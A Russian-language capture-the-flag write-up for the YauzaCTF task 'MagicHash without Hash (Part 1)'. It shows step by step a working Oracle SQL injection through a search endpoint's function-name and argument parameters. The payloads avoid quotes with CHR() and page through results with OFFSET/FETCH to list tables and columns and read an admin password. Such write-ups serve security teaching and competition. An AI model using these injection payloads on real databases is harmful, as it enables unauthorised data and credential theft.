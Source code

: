 # Райтап на таск MagicHash without Hash (Part 1) из YauzaCTF

Открыв страницу, мы видим поле для ввода текста и список результатов. Введя что-нибудь и посмотрев на запрос в developer tools, мы видим, что запрос имеет вид:
`/search.php?f=system.findnews&arg=[%22%25(текст)%25%22]`
Поменяв параметр f на рандомный, получаем ошибку:
> ORA-00904: "ASDF": invalid identifier

Видим, что:
* На бекенде стоит Oracle Database
* Параметр `f` управляет названием таблицы или процедуры

Подставив в `f` название какой-либо стандартной таблицы, получаем ошибку:
> ORA-00904: "SYSTEM"."ALL_TABLES": invalid identifier

Подставив название функции с одним параметром получаем результат.
`/search.php?f=UPPER&arg=["%25s%25"]`
> %S%

Это означает, что `f` управляет названием вызываемой функции, а `arg` - её параметрами. Но мне не удалось найти функцию, которая бы дала доступ к нужным данным, значит, придется применять SQL инъекцию.

Можно догадаться, что в исходном коде бекенда запрос имеет вид наподобие:
`SELECT $_GET['f'](implode(',', $_GET['arg'])) FROM DUAL`

Нам нужно выйти за пределы параметра функции в кавычках, поэтому немного поигравшись с параметрами, я написал такой запрос:

`/search.php?f=CONCAT&arg=["1","2'||(SELECT+1+FROM+DUAL))+FROM+DUAL+--"]`

Вместо `SELECT 1 FROM DUAL` тут можно вставить любой запрос, возвращающий не больше одной строки. Я писал запросы с плюсами вместо пробелов, чтобы они не попадали в urlencode и было читаемо, но можно и без них.

Таким образом, у нас запрос к базе примет следующий вид:

`SELECT CONCAT('1', '2'||(SELECT+1+FROM+DUAL))+FROM+DUAL+--') FROM DUAL`

Часть после `--` считается комментарием, и не обрабатывается сервером. То есть в очищенной форме запрос будет таким:

`SELECT CONCAT('1', '2' || (SELECT 1 FROM DUAL)) FROM DUAL`

Попробуем применить его, и увидим, что в ответ сервер вернул `12\1`, то есть 1 и 2 из параметров CONCAT, и 1, который вернул наш запрос. Кто знает, откуда взялся обратный слеш, напишите :).

Теперь мы можем выполнять любые запросы к базе, и видеть результат их выполнения. Но есть пара ограничений:
* Мы не можем использовать кавычки, так как это снова сломает запрос. Вместо этого для создания строк воспользуемся функцией CHR, которая возвращает символ по ascii коду, и оператором конкатенации ||. Например, строка 'test' после обработки будет 'CHR(116)||CHR(101)||CHR(115)||CHR(116)'
* Нельзя использовать запросы, которые возвращают больше одной строки (тогда оператор конкатенации не сможет склеить строки). Чтобы обойти это, воспользуемся оператором `OFFSET N ROWS FETCH NEXT 1 ROWS ONLY`, где N - номер строки, которую мы хотим получить. Таким образом мы будем получать по одной строке за раз.

Посмотрим, какие таблицы есть в базе. Функция для получения результатов называлась findnews, поэтому я решил поискать таблицы со словом news в названии. Получить список всех таблиц можно из таблицы ALL_TABLES, поле с названием имеет имя TABLE_NAME. Для поиска по таблице используем TABLE_NAME LIKE '%NEWS%', но не забываем про ограничения.

`/search.php?f=CONCAT&arg=["1","2'||(SELECT+TABLE_NAME+FROM+ALL_TABLES+WHERE+TABLE_NAME+LIKE+CHR(37)||CHR(78)||CHR(69)||CHR(87)||CHR(83)||CHR(37)+OFFSET+0+ROWS+FETCH+NEXT+1+ROWS+ONLY))+FROM+DUAL+--"]`

Получаем один результат: YAUZANEWS. Посмотрим владельца этой таблицы (колонка OWNER):

`/search.php?f=CONCAT&arg=["1","2'||(SELECT+OWNER+FROM+ALL_TABLES+WHERE+TABLE_NAME+LIKE+CHR(89)||CHR(65)||CHR(85)||CHR(90)||CHR(65)||CHR(78)||CHR(69)||CHR(87)||CHR(83)+OFFSET+0+ROWS+FETCH+NEXT+1+ROWS+ONLY))+FROM+DUAL+--"]`

Результат: SYSTEM. Посмотрим, какими ещё таблицами владеет этот пользователь. Проматывая строки параметром N после OFFSET, уже на N=2 находим таблицу YAUZAADMIN. Посмотрим её структуру по таблице ALL_TAB_COLUMNS.

`/search.php?f=CONCAT&arg=["1","2'||(SELECT+column_name+FROM+ALL_TAB_COLUMNS+WHERE+table_name=CHR(89)||CHR(65)||CHR(85)||CHR(90)||CHR(65)||CHR(65)||CHR(68)||CHR(77)||CHR(73)||CHR(78)+OFFSET+0+ROWS+FETCH+NEXT+1+ROWS+ONLY))+FROM+DUAL+--"]`

Изменяя параметр после OFFSET, узнаем структуру таблицы: ADMIN_ID,LOGIN,PASSWORD. В таблице всего одна строка, и пароль лежит в PASSWORD. Получим его:

`/search.php?f=CONCAT&arg=["1","2'||(SELECT+password+FROM+SYSTEM.YAUZAADMIN))+FROM+DUAL+--"]`
> 12\YauzaCTF{F1rstL3v31c0mpl3t3d}

Вот и наш флаг. Весь таск занял у меня чуть меньше трех часов, большую часть которых занял поиск инъекции.
